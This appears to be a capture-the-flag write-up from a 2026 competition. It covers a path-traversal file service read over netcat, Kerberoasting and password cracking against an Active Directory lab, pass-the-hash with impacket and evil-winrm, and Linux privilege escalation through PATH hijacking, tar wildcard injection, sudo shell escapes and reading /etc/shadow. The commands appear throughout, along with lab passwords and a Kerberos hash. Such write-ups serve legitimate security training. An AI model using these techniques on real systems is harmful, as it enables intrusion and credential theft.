

# CSA Cympire Cywaria 2026

## Round 1

## Challenge 1 Web

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

&#x20;

nc -vn 3.219.168.38 8888

(UNKNOWN) \[3.219.168.38] 8888 (?) open

READ:.bash\_history

File not found

&#x20;                                                                                                                                                                                          &#x20;

┌──(kali㉿kali)-\[\~]

└─$ nc -vn 3.219.168.38 8888

(UNKNOWN) \[3.219.168.38] 8888 (?) open

READ:/proc/self/environ

File not found

&#x20;                                                                                                                                                                                          &#x20;

┌──(kali㉿kali)-\[\~]

└─$ nc -vn 3.219.168.38 8888

(UNKNOWN) \[3.219.168.38] 8888 (?) open

READ:/var/www/html/flag.txt

File not found

&#x20;                                                                                                                                                                                          &#x20;

┌──(kali㉿kali)-\[\~]

└─$ nc -vn 3.219.168.38 8888

(UNKNOWN) \[3.219.168.38] 8888 (?) open

READ:../../../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash

daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

bin:x:2:2:bin:/bin:/usr/sbin/nologin

sys:x:3:3:sys:/dev:/usr/sbin/nologin

sync:x:4:65534:sync:/bin:/bin/sync

games:x:5:60:games:/usr/games:/usr/sbin/nologin

man:x:6:12:man:/var/cache/man:/usr/sbin/nologin

lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin

mail:x:8:8:mail:/var/mail:/usr/sbin/nologin

news:x:9:9:news:/var/spool/news:/usr/sbin/nologin

uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin

proxy:x:13:13:proxy:/bin:/usr/sbin/nologin

www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin

backup:x:34:34:backup:/var/backups:/usr/sbin/nologin

list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin

irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin

gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin

nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin

systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin

systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin

messagebus:x:102:105::/nonexistent:/usr/sbin/nologin

systemd-timesync:x:103:106:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin

syslog:x:104:111::/home/syslog:/usr/sbin/nologin

\_apt:x:105:65534::/nonexistent:/usr/sbin/nologin

tss:x:106:112:TPM software stack,,,:/var/lib/tpm:/bin/false

uuidd:x:107:113::/run/uuidd:/usr/sbin/nologin

tcpdump:x:108:114::/nonexistent:/usr/sbin/nologin

sshd:x:109:65534::/run/sshd:/usr/sbin/nologin

pollinate:x:110:1::/var/cache/pollinate:/bin/false

landscape:x:111:116::/var/lib/landscape:/usr/sbin/nologin

fwupd-refresh:x:112:117:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin

ec2-instance-connect:x:113:65534::/nonexistent:/usr/sbin/nologin

\_chrony:x:114:121:Chrony daemon,,,:/var/lib/chrony:/usr/sbin/nologin

ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash

lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false

john:x:1001:1001::/home/john:/bin/bash

flagkeeper:x:1002:1002::/home/flagkeeper:/bin/bash

&#x20;

nc -vn 3.219.168.38 8888

(UNKNOWN) \[3.219.168.38] 8888 (?) open

READ:../../../../../../home/flagkeeper/flag.txt

**CTF{su1d\_b1n4ry\_r34d\_f1l3\_2024}**

&#x20;

nc -vn 3.219.168.38 8888

(UNKNOWN) \[3.219.168.38] 8888 (?) open

READ:../../../../../../root/.bash\_history

ls

cd /

ls

cd web-electronics-shop/

ls

clear

df -h

which docker

docker ps

ls

docker ps

cd /

ls

c dhome

ls

cd /home

ls

ls /opt/logservice/

cat /opt/logservice/flag.txt

root@ip-10-10-2-10:/home# cat /opt/logservice/flag.txt

**CTF{su1d\_b1n4ry\_expl01t\_r00t\_2024}**

ls /opt/logservice/

echo 'LOG:$(grep FLAG /usr/local/bin/log\_service.py)' | nc localhost 9999

cat /usr/local/bin/log\_service.py

ls

cd flagkeeper/

ls

cd ../

ls -al

ls -al /usr/local/bin/

echo "READ:../../../root/flag\_linux\_medium.txt" | nc localhost 8888

su john

docker ps

ls

cat flag.txt

cat /home/flagkeeper/flag.txt

docker ps

docker exec -it 11b2906101ae /bin/bash

sudo docker exec -it 11b2906101ae /bin/bash

sudo docker exec -u 0 -it 11b2906101ae /bin/bash

rm -f \~/.ssh/known\_hosts

exit

sudo docker exec -u 0 -it 11b2906101ae /bin/bash

rm -f \~/.ssh/known\_hosts

exit

&#x20;

nc -vn 3.219.168.38 8888

(UNKNOWN) \[3.219.168.38] 8888 (?) open

READ:../../../../../../proc/self/cgroup

0::/system.slice/fileservice.service

&#x20;

nc -vn 3.219.168.38 8888

(UNKNOWN) \[3.219.168.38] 8888 (?) open

READ:../../../../../../proc/self/cmdline

/usr/bin/python3/usr/local/bin/file\_service.py

&#x20;

nc -vn 3.219.168.38 8888

(UNKNOWN) \[3.219.168.38] 8888 (?) open

READ:../../../../../../usr/local/bin/file\_service.py

\#!/usr/bin/env python3

import socket

import os

&#x20;

\# Vulnerable file reading service running as root

\# Listens on port 8888

&#x20;

def handle\_client(client\_socket):

&#x20;   try:

&#x20;       data = client\_socket.recv(1024).decode().strip()

&#x20;     &#x20;

&#x20;       if data.startswith("READ:"):

&#x20;           filepath = data\[5:]

&#x20;         &#x20;

&#x20;           \# Vulnerable: Path traversal, no input validation

&#x20;           \# Intended to read files from /var/www/ but can be exploited

&#x20;           full\_path = f"/var/www/{filepath}"

&#x20;         &#x20;

&#x20;           try:

&#x20;               with open(full\_path, "r") as f:

&#x20;                   content = f.read()

&#x20;                   client\_socket.send(content.encode())

&#x20;           except FileNotFoundError:

&#x20;               client\_socket.send(b"File not found\n")

&#x20;           except Exception as e:

&#x20;               client\_socket.send(f"Error: {str(e)}\n".encode())

&#x20;             &#x20;

&#x20;       elif data == "STATUS":

&#x20;           client\_socket.send(b"File Service Running\n")

&#x20;       else:

&#x20;           client\_socket.send(b"Usage: READ:\<filename>\n")

&#x20;         &#x20;

&#x20;   except Exception as e:

&#x20;       client\_socket.send(f"Error: {str(e)}\n".encode())

&#x20;   finally:

&#x20;       client\_socket.close()

&#x20;

def main():

&#x20;   server = socket.socket(socket.AF\_INET, socket.SOCK\_STREAM)

&#x20;   server.setsockopt(socket.SOL\_SOCKET, socket.SO\_REUSEADDR, 1)

&#x20;   server.bind(("0.0.0.0", 8888))

&#x20;   server.listen(5)

&#x20; &#x20;

&#x20;   while True:

&#x20;       client, addr = server.accept()

&#x20;       handle\_client(client)

&#x20;

if \_\_name\_\_ == "\_\_main\_\_":

main()

&#x20;

nc -vn 3.219.168.38 8888

(UNKNOWN) \[3.219.168.38] 8888 (?) open

READ:../../proc/net/tcp

&#x20; sl  local\_address rem\_address   st tx\_queue rx\_queue tr tm->when retrnsmt   uid  timeout inode                                                   &#x20;

&#x20;  0: 00000000:22B8 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 11910 1 ffff8e0c02885340 100 0 0 10 0                   &#x20;

&#x20;  1: 3500007F:0035 00000000:0000 0A 00000000:00000000 00:00000000 00000000   101        0 4485 1 ffff8e0c02c59280 100 0 0 10 5                    &#x20;

&#x20;  2: 00000000:8000 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 8400 1 ffff8e0c02c5b780 100 0 0 10 0                    &#x20;

&#x20;  3: 00000000:0016 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 5420 1 ffff8e0c02880940 100 0 0 10 0                    &#x20;

&#x20;  4: 00000000:2710 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 7797 1 ffff8e0c02882e40 100 0 0 10 0                    &#x20;

&#x20;  5: 0A020A0A:22B8 0B794BDB:C679 06 00000000:00000000 03:00000562 00000000     0        0 0 3 ffff8e0c297f4420                                    &#x20;

&#x20;  6: 0A020A0A:22B8 0B794BDB:C677 06 00000000:00000000 03:00000200 00000000     0        0 0 3 ffff8e0c297f4000                                    &#x20;

&#x20;  7: 0A020A0A:22B8 0B794BDB:C67C 06 00000000:00000000 03:00000A7E 00000000     0        0 0 3 ffff8e0c297f4a50                                    &#x20;

&#x20;  8: 0A020A0A:22B8 0B794BDB:C67F 06 00000000:00000000 03:000011C3 00000000     0        0 0 3 ffff8e0c297f4318                                    &#x20;

&#x20;  9: 0A020A0A:22B8 0B794BDB:C680 06 00000000:00000000 03:0000152F 00000000     0        0 0 3 ffff8e0c297f4b58                                    &#x20;

&#x20; 10: 010012AC:C2D8 030012AC:1388 06 00000000:00000000 03:00000F5D 00000000     0        0 0 3 ffff8e0d0a8bec60                                    &#x20;

&#x20; 11: 0A020A0A:22B8 0B794BDB:C67B 06 00000000:00000000 03:000007E0 00000000     0        0 0 3 ffff8e0c297f4108                                    &#x20;

&#x20; 12: 0100007F:80A2 0100007F:2710 06 00000000:00000000 03:00000F5D 00000000     0        0 0 3 ffff8e0d0a8be000                                    &#x20;

&#x20; 13: 0A020A0A:22B8 0B794BDB:C681 01 00000000:00000000 00:00000000 00000000     0        0 64608 1 ffff8e0c02882500 74 4 30 10 -1                  &#x20;

&#x20; 14: 0A020A0A:22B8 0B794BDB:C67E 06 00000000:00000000 03:00000F77 00000000     0        0 0 3 ffff8e0c297f4840

&#x20;

nc -vn 3.219.168.38 8888

(UNKNOWN) \[3.219.168.38] 8888 (?) open

READ:../../../../../../etc/environment

PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin"

<figure><figcaption></figcaption></figure>

You have SSH access as a user inside the linux machine, connect to the server and find the first flag at the home folder of "flagkeeper".

&#x20;

You can find the Linux machine IP inside the Arsenal

Asset Name - Web

Username - john

Password - Str0ng3stP@$sw0rdCPAI

id

sudo find /home/flagkeeper -name flag.txt -exec cat {} \\;

**Answer: CTF{su1d\_b1n4ry\_r34d\_f1l3\_2024}**

&#x20;

After obtaining flagkeeper's flag you'll have to get the root flag. Submit the flag you found inside the root folder

sudo find /root -name flag.txt -exec cat {} \\;

**Answer: CTF{p4th\_tr4v3rs4l\_s3rv1c3\_2024}**

**CTF{r3g1stry\_s3cr3ts\_3xp0s3d}**

<figure><figcaption></figcaption></figure>

## Round 2

You have been engaged to perform a penetration test for Frostbite Corp, iceberg.local domain. As part of this assessment, your objective is to evaluate the security posture of the internal environment and identify potential weaknesses across the network infrastructure.

&#x20;

The scope of the engagement includes attempting to gain unauthorized access to critical assets, with a primary focus on compromising the Domain Controller through the internal corporate network. You will simulate a real world adversary, leveraging sophisticated attack techniques, privilege escalation methods, lateral movement, credential abuse, and misconfiguration discovery in order to assess the resilience of the organization’s defenses.

&#x20;

The Magician23:14:45

Target 1: Part 1 (5  missions)

After weeks of reconnaissance, your team has identified Iceberg Corp as a high-value target.

Their corporate network spans the 10.10.0.0/16 range, housing critical infrastructure and sensitive employee data.

You'll start with credentials of zara.hall the team got them yesterday with a phishing Campaign

/static/media/blue-help-icn.3c7e59dac8288a14bf8adc198f6a0c61.svg avatar

The Magician23:14:45

Mission 1: Quick Start

With Zara's credentials in hand, you now have authenticated to the domain environment. Your first task is to conduct a comprehensive enumeration of the Active Directory structure to understand the scope of the corporate network. Identify the vulnerable user you can abuse to lateral movement

Username  - zara.hall

Password - WeAreOne!9@8#7

Submit the vulnerable username e.g. ( John Doe)

&#x20;

impacket-GetADUsers -all -dc-ip 44.210.83.134 iceberg.local/zara.hall:"WeAreOne\\!9@8#7"

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

impacket-GetUserSPNs -request -dc-ip 44.210.83.134 iceberg.local/zara.hall:"WeAreOne\\!9@8#7"

&#x20;

Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

&#x20;

ServicePrincipalName               Name     MemberOf  PasswordLastSet             LastLogon                   Delegation

\---------------------------------  -------  --------  --------------------------  --------------------------  ----------

MSSQLSvc/SQL01.iceberg.local:1433  sql\_svc            2026-02-10 04:51:01.934855  2026-02-12 02:14:33.228913           &#x20;

&#x20;

&#x20;

&#x20;

\[-] CCache file is not found. Skipping...

$krb5tgs$23$\*sql\_svc$ICEBERG.LOCAL$iceberg.local/sql\_svc\*$92a5d74271838f72fa3d55f27a17cca6$cbd60d4c48c54dfc88cedc7e29da21b0517d77d90698c412135623c30232478f61e8456092baf0bfc553faa9bb1cd81c1554623dc25a2e9a96fb8f10f9e46a271f92e275a42fb893dd1b35ca2f76907039760f6b8988009fc86c66993d07efc6fffd510a23cc718922b8029db7ad0b3444d67ede9c60c9d876d095a9777a82620bbe292ec9775b11a4379f763b91d78495422af5c63c142b2e8b3a532804ff0fcd975f9f97466d41b49f718c1ce0e0ff3bea96e3a9b5326ad0f3292115cd10d0fc9335096d8b549375106d24911f2120228f51c9e22086bc0fb604eaf31a76ae69277d25cc23debe8e3553a6dc6220b0f268624fc765c028f59002d9145b0ebe6ab9848f46ca4415a2279a3b38b484f862a24e1a8d594f8222ff9f998626d5c4834376ef2cb16256d39d9d4834df7d593109ae291ac00f775afcdfd8c9bc8d0e645e67b1b2e24a461cee7ef0539a54bb455c1ff970f6d5b944cbcd542abcfea13d7aa2fa0673569632d33e866cda917ce3e5a996904522acdd7440f1dd9d4fbfa52316bc72cb8eed0f3c434bba66c7d11762e2e2c64392d2563e410f8473fcbff8550afbd9d4aa2ac8e0d1e211d296ebcfd7965ad0507c6a5a4ef94539945b76383691952e76a1caa0edc69d2b6b46b04a9ccd4288bd1b876b370320ca4e69afc12cc723275d1dfccfceaf7e12ead06ced58d7fcc47faa49a4c77c47c5376ae841dd1a2f310e541f0a8c4518ca2ac74984fd16b6b2b7b0a5a8856b06d0bd53dee14a947450eede0de899edee11f9c3d029ed9e9c5b33c06d99928f239f0e7695018bf0160e6d964dc38f23ab33c4b9c0d9d1c332eb34e2f7cd29fa847dd197617622841b044fb75f7e597b83801866af4fa8bab0209503db0b547dbf71e1f7b353154ff5623088307e80510c7a5a4b27374bf272cb2d521afea01b4c96348c51a2dd691db39bc7af4bf9758a0f22e9b18c5d5bb034e6b86ba6ba39e054c31344c6c04a7248d13c3d53f842b647966ca606623919e3288ec09f92029575b3b43680af2dd47762c2227194ddaf924e1d67a5a9707556e6bc2acbc31e74ab91d5cfe277c13a94cb7367ee9f100bcb4914425c4c332a30addf40debe018a86b2693672847111a84de0c215dfa47d109efd6df62a28b2009a2635ed410015d8d1ea3f5ddf599ffacb7329a81141f3b025664e05c873ac511a6c86f5eb0c1112fdb64c2a60865c5f2be6c6f3487df4ac9545f9827b07d27bdb7da97847651b7dc2521eef8327487e68261c9263be04d2e0040a9de452f0cfd2ad06fef1825b3b131e00b9d0f74dd22e3b868d80e5e97959642e39fa09398a5398e59412e15034d0b9b76dabcac32f84836870199158162105f57346c45719ceeb757797185fea5d7bbd7d84f2ca121ed089b4a9bd24153b29a4df22c795b73da75bb083e331eca8ae0e5cf3cadd5fc492fcea5011d3511cb549a7d64586e8d3dc0633f4af82733120217808067502b5133bbe33e1c8b768cb

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

The Magician23:41:58

Mission 2: Kerberos

Crack the extracted \`sql\_svc\` TGS hash using offline password cracking techniques.

&#x20;

Submit the password you got from the hash. (e.g. IAmStrongPassword123)

mousepad mission2tgs.hash

<figure><figcaption></figcaption></figure>

john --wordlist=/usr/share/wordlists/rockyou.txt mission2tgs.hash

Using default input encoding: UTF-8

Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 \[MD4 HMAC-MD5 RC4])

Will run 4 OpenMP threads

Press 'q' or Ctrl-C to abort, almost any other key for status

sherbetlemon     (?)   &#x20;

1g 0:00:00:00 DONE (2026-02-12 23:50) 3.571g/s 643657p/s 643657c/s 643657C/s tatian..sandy88

Use the "--show" option to display all of the cracked passwords reliably

Session completed.

<figure><figcaption></figcaption></figure>

The Magician23:50:41

Mission 3: Admin privileges

Using the compromised sql\_svc credentials, perform a shadow credentials attack to find your way into EXEC01.

&#x20;

Asset Name:WIN10-EXEC01

Submit the name File located in the administrator Desktop . (e.g. administrator.txt)

&#x20;

 (1).png>)

sudo nano /etc/hosts

 (1).png>)

&#x20;

 (1).png>)

 (1).png>)

 (1).png>)

impacket-smbclient -hashes :5f754bcffe28b5bb5a1581d9bbd4e98c 'iceberg.local/WIN10-EXEC01$@44.210.83.134'

&#x20;

impacket-secretsdump -hashes :5f754bcffe28b5bb5a1581d9bbd4e98c 'iceberg.local/WIN10-EXEC01$@44.221.50.166'

 (1).png>)

evil-winrm -i 44.221.50.166 -u 'TARGET\_USER' -H '\<HASH\_FROM\_CERTIPY>'

 (1).png>)

 (1).png>)

 (1).png>)

&#x20;

Btw, I know is iceberg.local because cannot connect to rdp, then I saw iceberg.local domain.

### Linux Security

The Magician02:16:10

Mission 1: The Capability Trap

Exploit Linux capabilities on custom binaries to escalate privileges. Standard SUID binaries have been removed - find the misconfigured capability that grants root access. 

Port: 2221

SSH Command: ssh developer@ -p \<PORT>

Password: P@ssw0rd!2025WebDev 

Flag Location: Retrieve the flag from /root/flag.txt after gaining root access.

developer@privesc-medium:\~$ nano exploit.py

.png>)

developer@privesc-medium:\~$ chmod +x exploit.py

\

The Magician02:23:12

Mission 2: PATH Hijacking

Abuse SUID binaries that use relative paths to execute commands. Hijack the PATH environment variable to gain root privileges.

 

Port: 2222

SSH Command: ssh developer@ -p \<PORT>

Password: P@ssw0rd!2025WebDev

 

Flag Location: Retrieve the flag from /root/flag.txt after gaining root access.

\
find / -perm -4000 -type f -not -path "/proc/\*" -not -path "/sys/\*" 2>/dev/null

.png>)

\
strings $(find / -perm -4000 -type f -not -path "/proc/\*" -not -path "/sys/\*" 2>/dev/null) | grep -E "^\w+/.\*$"

.png>)

 

echo '#!/bin/bash' > /tmp/ls

echo 'cp /bin/bash /tmp/bash\_root' >> /tmp/ls

echo 'chmod +s /tmp/bash\_root' >> /tmp/ls

chmod +x /tmp/ls

 

.png>)

 

export PATH="/tmp:$PATH"

 

.png>)

 

<figure><figcaption></figcaption></figure>

.png>)

The Magician02:48:28

Mission 3: Wildcard Injection

Exploit wildcard characters in automated cron scripts. Tar and chown commands process files with dangerous wildcards - create malicious filenames to execute arbitrary commands as root.

<figure><figcaption></figcaption></figure>

.png>)

<figure><figcaption></figcaption></figure>

developer@wildcard-medium:\~$ touch /home/developer/--checkpoint=1

developer@wildcard-medium:\~$ touch /home/developer/--checkpoint-action=exec=sh\ exploit.sh

 

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Answer: cyberolympians{wildc4rd\_1nj3ct10n\_t4r\_pwn4g3\_2025}

<figure><figcaption></figcaption></figure>

The Magician03:07:39

Mission 4: Sudo Exploitation

Escape from restricted sudo commands. Several scripts can be run as root via sudo - find a way to break out and spawn a root shell through vi, less, find, or env.

 

Port: 2224

SSH Command: ssh developer@ -p \<PORT>

Password: P@ssw0rd!2025WebDev

 

Flag Location: Retrieve the flag from /root/flag.txt after gaining root access.

.png>) 

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

.png>)

.png>)

TF=$(mktemp)

echo 'os.execute("/bin/sh")' > $TF

sudo nmap --script=$TF

Starting Nmap 7.80 ( https://nmap.org ) at 2026-02-13 08:23 UTC

NSE: Warning: Loading '/tmp/tmp.vM6zQtLEzj' -- the recommended file extension is '.nse'.

\# root

\# cat: '/opt/database/flg'$'\b''ag.txt': No such file or directory

\# cat: /opt/database/flag.txt: No such file or directory

\# /home/developer/tools

\# total 8

drwxr-xr-x 2 root root 4096 Oct 13 14:03 .

drwxr-xr-x 1 root root 4096 Dec 31 08:58 ..

\
.png>)

python3 -c 'import pty; pty.spawn("/bin/bash")'

 

.png>)

 

.png>)

 

The Magician03:44:52

Target 2: Part 2 (4  missions)

/static/media/blue-help-icn.3c7e59dac8288a14bf8adc198f6a0c61.svg avatar

The Magician03:44:52

Mission 1: Kernel Capability Maze

Multi-stage privilege escalation using advanced Linux capabilities to gain root access.

 

Port: 3331

SSH Command: ssh developer@ -p \<PORT>

Password:P@ssw0rd!2025WebDev

 

Flag Location: Retrieve the flag from /root/flag.txt after gaining root access.

\
.png>)

getcap -r / 2>/dev/null

 

.png>)

 

/opt/.system/tools/legacy/deprecated/old\_utils/py3\_legacy -c 'print(open("/etc/shadow").read())'

 

.png>)

 

.png>)

 

/opt/.system/tools/legacy/deprecated/old\_utils/py3\_legacy -c 'print(open("/etc/sudoers").read())'

\
.png>)

<figure><figcaption></figcaption></figure>

If you find a binary listed with NOPASSWD, you can immediately escalate to root. For example, if secadmin can run find as root:

su secadmin (once you crack the hash)

sudo find . -exec /bin/sh -p \\; -quit

.png>)\
/opt/.system/tools/legacy/deprecated/old\_utils/py3\_legacy -c 'import os; print(\[os.path.join(dp, f) for dp, dn, filenames in os.walk("/root") for f in filenames])'

\['/root/.bashrc', '/root/.profile', '/root/.credentials.enc']

 

/opt/.system/tools/legacy/deprecated/old\_utils/py3\_legacy -c 'print(open("/root/.credentials.enc", "rb").read())'

b'U2FsdGVkX19h/IuxRZZwH/l4O33HaLw3XSmWmsEEzrOt5lC8JnAOIo3fkrd+HeL2\n'

 

.png>)

.png>)

 

The Magician04:29:51

Mission 2: Multi-Level Buffer Overflow

There is three-stage buffer overflow to exploit for reaching root.

 

Port: 3332

SSH Command: ssh developer@ -p \<PORT>

Password: P@ssw0rd!2025WebDev

 

Flag Location: Retrieve the flag from /root/flag.txt after gaining root access.

\
.png>)

gdb /opt/challenges/level3/vuln

 

The Magician04:34:51

Mission 3: Shared Object Injection

Hijack shared library loading via RPATH and LD\_LIBRARY\_PATH. create a malicious object to execute code as root.

 

Port: 3333

SSH Command: ssh developer@ -p \<PORT>

Password: Developer2025

 

Flag Location: Retrieve the flag from /root/flag.txt after gaining root access.

 

.png>)

<figure><figcaption></figcaption></figure>

The Magician04:39:54

Mission 4: Race Condition Exploitation

Exploit TOCTOU (Time-of-Check-Time-of-Use) race conditions. A privileged script checks file permissions before reading .

 

Port: 3334

SSH Command: ssh developer@ -p \<PORT>

Password: P@ssw0rd!2025WebDev

 

Flag Location: Retrieve the flag from /root/flag.txt after gaining root access.

 

